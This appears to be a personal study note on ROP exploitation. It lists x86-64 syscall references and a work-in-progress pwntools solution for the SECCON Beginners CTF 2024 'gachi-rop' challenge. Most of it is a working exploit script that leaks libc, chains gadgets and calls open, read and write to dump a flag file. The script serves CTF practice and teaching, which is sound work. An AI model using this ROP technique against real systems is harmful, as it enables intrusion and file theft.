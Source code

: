 # ROP

# Linux x86 (x64) syscall
- https://www.mztn.org/lxasm64/x86_x64_table.html#google_vignette
- https://manpages.ubuntu.com/manpages/noble/ja/man2/syscall.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/syscalls.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/open.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/read.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/write.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/close.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/getdents.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/exit.2.html
- [呼出規約](https://ja.wikipedia.org/wiki/%E5%91%BC%E5%87%BA%E8%A6%8F%E7%B4%84)

# SECCON_Beginners_CTF_2024/pwnable/gachi-rop
- https://gitlab.mma.club.uec.ac.jp/mmabeginners/seccon-beginners-ctf-2024/-/blob/main/pwnable/gachi-rop/README.md
- https://github.com/satoki/ctf4b_2024_satoki_writeups/tree/main/pwnable/gachi-rop

```bash
sudo apt install patchelf -y
```
## 解法 (TODO: 作成中)
```python
#!/usr/bin/env python3
from pwn import *
exe = context.binary = ELF(args.EXE or './gachi-rop')
# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
gdbscript = '''
tbreak main
tbreak *main+134
continue
'''.format(**locals())
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No
io = start()
io.recvuntil(b'system@')
system_addr = int(io.readline().strip(), 16)
libc.address = system_addr - libc.symbols['system']
log.info("system addr: " + hex(system_addr))
log.info("libc base addr: " + hex(libc.address))
# payload = cyclic(300)
# log.info("offset: " + str(cyclic_find("gaaahaaa")))
# 0x0000000000045eb0: pop rax; ret;
pop_rax = 0x0000000000045eb0 + libc.address
# 0x000000000002a3e5 : pop rdi ; ret
pop_rdi = 0x000000000002a3e5 + libc.address
# 0x000000000002be51 : pop rsi ; ret
pop_rsi = 0x000000000002be51 + libc.address
# 0x000000000011f2e7 : pop rdx ; pop r12 ; ret
pop_rdx_pop_r12 = 0x000000000011f2e7 + libc.address
# 0x000000000003d1ee : pop rcx ; ret
pop_rcx = 0x000000000003d1ee + libc.address
# 0x0000000000041563 : push rax ; ret
push_rax = 0x0000000000041563 + libc.address
# 0x0000000000029db4 : syscall
syscall = 0x0000000000029db4 + libc.address
# pwndbg> rop --grep 'mov qword ptr \\[...], ... ; ret' -- --depth=4
# 0x0000000000039bf7 : mov qword ptr [rax], rdx ; ret
# 0x000000000018d560 : mov qword ptr [rcx], rdx ; ret
mov_ptr_rcx_rdx = 0x000000000018d560 + libc.address
# 0x00000000000bfc76 : mov qword ptr [rdi], rcx ; ret
# 0x00000000000bfc63 : mov qword ptr [rdi], rdx ; ret
# 0x000000000003a410 : mov qword ptr [rdx], rax ; ret
mov_ptr_rdx_rax = 0x000000000003a410
# 0x00000000000b0fc1 : mov qword ptr [rdx], rcx ; ret
# 0x0000000000141c51 : mov qword ptr [rsi], rdi ; ret
# 0x000000000005652a : mov qword ptr [rsi], rdx ; ret
# pwndbg> rop --grep 'mov r.., r.. ; ret' -- --depth 4
# 0x0000000000040772 : mov rax, r10 ; ret
# 0x00000000000abc5c : mov rax, r11 ; ret
# 0x000000000005a171 : mov rax, rdi ; ret
# 0x00000000000546ad : mov rax, rdx ; ret
# 0x000000000005a0b8 : mov rax, rsi ; ret
# 0x000000000005a120 : mov rsp, rdx ; ret

# 0x000000000014a1b5 : xchg edi, eax ; ret
xchg_edi_eax = 0x000000000014a1b5 + libc.address;

# syscall#: rax, retval: rax
# arg#: rdi rsi rdx r10 r8 r9 

# ssize_t read(int fd, void *buf, size_t count); # syscall#: 0
# int open(const char *buf, int flags); # syscall#: 2
# fd = open(buf, O_RDONLY)
# ssize_t getdents64(int fd, void *dirp, size_t count); # syscall#: 217
# getdents64(fd, out, count)
# ssize_t write(int fd, const void *buf, size_t count); # syscall#: 1
# write(0, buf, count)
# void _exit(int status);

# 0x404000           0x405000 rw-p     1000   3000 /mnt/e/work/ctf/SECCON_Beginners_CTF_2024/pwnable/gachi-rop/gachi-rop
buf = 0x404000
payload = (
    b'A'*24 +
    # write "flag.txt" to 0x404000
    p64(pop_rcx) + p64(buf) +
    p64(pop_rdx_pop_r12) + b'/flag.tx' + p64(0xdeadbeefcafebabe) +
    p64(mov_ptr_rcx_rdx) +
    # write "\x00"*8 to 0x404008
    p64(pop_rcx) + p64(buf+0x8) +
    p64(pop_rdx_pop_r12) + b't' + b'\x00'*7 + p64(0xdeadbeefcafebabe) +
    p64(mov_ptr_rcx_rdx) +
    # syscall#: rax, retval: rax
    # arg#: rdi rsi rdx r10 r8 r9 
    # int open(const char *buf, int flags); # syscall#: 2
    p64(pop_rdi) + p64(buf) + # arg1
    p64(pop_rsi) + p64(0) + # arg2
    p64(libc.symbols['open']) +
    # ssize_t read(int fd, void *buf, size_t count); # syscall#: 0
    p64(xchg_edi_eax) + # arg1
    p64(pop_rsi) + p64(buf+0x100) + # arg2
    p64(pop_rdx_pop_r12) + p64(50) + p64(0xdeadbeefcafebabe) + # arg3
    p64(libc.symbols['read']) +
    # int close(int fd);
    p64(pop_rdi) + p64(0) + # arg1
    p64(libc.symbols['close']) +
    # write(0, buf, count)
    p64(pop_rdi) + p64(1) + # arg1
    p64(pop_rsi) + p64(buf+0x100) + # arg2
    p64(pop_rdx_pop_r12) + p64(50) + p64(0xdeadbeefcafebabe) + # arg3
    p64(libc.symbols['write']) +
    # int close(int fd);
    p64(pop_rdi) + p64(1) + # arg1
    p64(libc.symbols['close']) +
    # void _exit(int status);
    p64(pop_rdi) + p64(0) + # arg1
    p64(libc.symbols['exit'])
)
io.sendlineafter(b'Name: ', payload)
log.info(io.recvall().decode(errors="ignore"))
#io.interactive()
```
